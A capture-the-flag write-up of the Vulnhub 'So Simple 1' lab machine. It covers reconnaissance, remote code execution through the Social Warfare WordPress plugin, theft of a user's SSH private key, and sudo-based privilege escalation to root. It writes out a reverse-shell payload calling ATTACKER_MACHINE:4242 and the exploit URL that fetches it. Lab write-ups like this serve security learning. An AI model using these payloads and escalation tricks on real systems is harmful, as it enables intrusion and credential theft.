# So Simple 1

---

Machine by [@roelvb79](https://twitter.com/roelvb79)

Vulnhub [link](https://www.vulnhub.com/entry/so-simple-1,515/)

Objectives:

- 2 user flags
- 1 root flag

---

## Table of Content

1. [NMAP scan](https://github.com/R3TR0R0C4/CTFs/blob/main/SoSimple1/SoSimple1.md#11-getting-the-second-flag)
2. [Visiting the web](https://github.com/R3TR0R0C4/CTFs/blob/main/SoSimple1/SoSimple1.md#2-visiting-the-web)
3. [Attempting SSH login](https://github.com/R3TR0R0C4/CTFs/blob/main/SoSimple1/SoSimple1.md#3-attempting-ssh-login)
4. [dirb reconeisance](https://github.com/R3TR0R0C4/CTFs/blob/main/SoSimple1/SoSimple1.md#4-dirb-reconeisance)
5. [WPScan reconeisance](https://github.com/R3TR0R0C4/CTFs/blob/main/SoSimple1/SoSimple1.md#5-wpscan-reconeisance)
6. [Prepairing the exploit](https://github.com/R3TR0R0C4/CTFs/blob/main/SoSimple1/SoSimple1.md#6-prepairing-the-exploit)
7. [Using the exploit](https://github.com/R3TR0R0C4/CTFs/blob/main/SoSimple1/SoSimple1.md#7-using-the-exploit)
8. [Getting the SSH Key](https://github.com/R3TR0R0C4/CTFs/blob/main/SoSimple1/SoSimple1.md#8-getting-the-ssh-key)
9. [First user flag](https://github.com/R3TR0R0C4/CTFs/blob/main/SoSimple1/SoSimple1.md#9-first-user-flag)
10. [Changing Users](https://github.com/R3TR0R0C4/CTFs/blob/main/SoSimple1/SoSimple1.md#10-changing-users)
11. [Second user flag](https://github.com/R3TR0R0C4/CTFs/blob/main/SoSimple1/SoSimple1.md#11-second-user-flag)
12. [Escalating to root](https://github.com/R3TR0R0C4/CTFs/blob/main/SoSimple1/SoSimple1.md#12-escalating-to-root)
13. [Third flag](https://github.com/R3TR0R0C4/CTFs/blob/main/SoSimple1/SoSimple1.md#13-third-flag)

---

### 1. NMAP scan

We'll use an intense scan on the victim vm (192.168.56.111), we can see web and ssh services running, but no aparent vulnerabilities yet.



<br>

### 2. Visiting the web

If we visit the website we can see that there is only a big red image with the words "SO SIMPLE":


And the website code doesn't reveal anything that's useful:



<br>

### 3. Attempting SSH login

Attempting to login with ssh shows it only accepts key authentication, thus ruling out ssh brute force with common passwords, if we want a way in we'll need an alternative

<br>

### 4. dirb reconeisance

As there is no vulnerability that we can see in plain sight, dirb, will show us what are some sub-directories, and we can see that wordpress is installed:



<br>

### 5. WPScan reconeisance

As we saw on the las step wordpress is installed, WPScan will show wordpress, plugins and themes versions, as well as vulnerabilities associated with them, for this we'll need an api key that we can get by creating a free account.

And we'll run the command: `sudo wpscan --api-token <API> --url http://192.168.56.111/wordpress/ -e`



Here we can see that the plugin "Social Warfare has an RCE vulnerability that is probably going to work:



If we scroll down further we can see the wordpress users that exist, we can see "admin" and "max":



<br>

### 6. Prepairing the exploit

We can see that Social Warfare 3.5.0 has a RCE [vulnerability](https://wpscan.com/vulnerability/7b412469-cc03-4899-b397-38580ced5618/). To exploit it we'll need a web server and a payload and a netcat listener to get a reverse shell.

- Web server

        We need a web server to serve our payload, this will be apache as it's simple and comes pre-installed on kali, we only need to enable it:

        

  <br>

- Netcat

       We need a netcat instance to listen to our reverse shell and catch it, this will use openssl and you can find more info on the [swisskeyrepo](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#openssl) repository by [Swissky](https://github.com/swisskyrepo).

       The command to execute will be `ncat --ssl -vv -l -p 4242`.
       This will listen for any connection on port 4242.

       

  <br>

- Payload

  The payload also comes from the same repo and it will be placed on the file `/var/www/html/payload.txt` and contain the next code:

  `system('mkfifo /tmp/s; /bin/bash -i < /tmp/s 2>&1 | openssl s_client -quiet -connect ATTACKER_MACHINE:4242 > /tmp/s; rm /tmp/s')`

  

  The "ATTACKER_MACHINE" needs to be changed to our kali machine, in my case 192.168.56.1.. and the port needs to match the netcat listener above.

<br>

### 7. Using the exploit

To run the exploit we need to visit the next url on a web browser:

`http://WEBSITE/wordpress/wp-admin/admin-post.php?swp_debug=load_options&swp_url=http://ATTACKER_HOST/payload.txt`

The "ATTACKER_MACHINE" needs to be changed to our kali machine, in my case 192.168.56.1.. and "VICTIM_MACHINE to our so simple:1 vm, in my case 192.168.56.111

Here we can see what happens after visiting the URL:


And if we go back to the ncat terminal we can see that it has established the connection and now we have a shell with the user "www-data":



<br>

### 8. Getting the SSH Key

If we cd into the .ssh folder of the user "max", we can copy his ssh key, it's called id_rsa, we can use cat to list it and then copy it into a file called "key" on our kali machine.



After copying id_rsa off of the user, we will add it into a file called key, it's important to change the file permissions to 700, and not using sudo to add the key:



And now we can ssh into the server as user max, add the fingerprint, and we'll have ssh access:



<br>

### 9. First user flag

Once inside and as user "max", if we ls their home directory we can see "personal.txt" this file is not useful, "this" is a folder with a bunch of subfolders with a little easter-egg and "user.txt" wich is the user flag we're after:


<br>

### 10. Changing Users

First we'll use the command `sudo -l` to list what services or scripts we have access to as root, but without using a password:



We can see that we have access to the service `/usr/sbin/service`.

After listing `/etc/passwd` we can see user steven, we can use `/usr/sbin/service` to change into user steven and dig further.

To change users we would need either the root password or the other user's password, because we have root access to the service command, we can use it to our advantage:

First of all we use sudo permissions to skip the steven login. Then `-u` to say we want to change user and `steven` to indicat to what user. Then `/usr/sbin/service` is the command we will execute, and `../../bin/bash` is the next command to execute, wich happens to be the shell that we want to use.

`sudo -u steven /usr/sbin/service ../../bin/bash`


<br>

### 11. Second user flag

Once we have logged in as the user steven, we can navigate to his home directory and cat the second flag:


We can also list the hidden contents of the user's home, but we can't see anything really useful:



<br>
   
### 12. Escalating to root

Once again we'll use `sudo -l` to see what service/script we have access as root without a password.



We can see that we have access to the file `/opt/tools/server-health.sh`, if try to list the contents of the file we can see it's non existant.

So we'll create the folder tools:

`mdkir /opt/tools`

And the script:

`nano /opt/tools/server-health.sh`

Then add the next code to the script:

```
#!/bin/bash

bash
```

And chmod +x the script:

`chmod +x /opt/tools/server-health.sh`



Then we can use `sudo -u root /opt/tools/server-health.sh` and get root user access to the machine

`sudo` will make sure that we run it as root.

`-u root` will change the user to root

`and /opt/tools/server-health.sh` will tell the command what script we want to run, and it will be bash to get into the root bash shell.



### 13. Third flag

We can cd into the root home, ls and see the flag:


